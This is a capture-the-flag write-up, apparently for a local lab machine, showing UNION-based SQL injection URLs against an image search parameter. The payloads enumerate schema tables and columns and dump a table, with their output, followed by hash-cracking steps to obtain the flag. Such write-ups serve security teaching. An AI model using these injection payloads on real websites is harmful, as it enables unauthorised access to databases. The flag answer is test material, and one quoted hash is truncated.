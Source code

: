 # Sql_Advanced_Injection

The GET parameter in the image search form is vulnerable to sql injection

## Method

Go to the search image page (<http://192.168.1.102/?page=searching>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting the table name

```

http://192.168.1.102/?page=searchimg&id=-1 union select table_name, 0 from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images

```

### getting the column names

```

http://192.168.1.102/?page=searchimg&id=-1 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment

```

### getting information we need

```

http://192.168.1.102/?page=searchimg&id=-1 union select title, comment from list_images&Submit=Submit

```

#### result

```

ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Yes we can !
Url : Obama
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
ID: -1 union select title, comment from list_images 
Title: Because why not ?
Url : tr00l

```

You can see that it gives us this helpful part that says "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
We then follow this intruction to get the flag we need.

## How to get the flag

Decode the hash 1928e8083cf461a51303633093573c4 using md5.gromweb.com website.
Which gives us the original string "Albatroz"
lower all characters and as per the instructions Sh-256 of albatroz is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 which is the flag

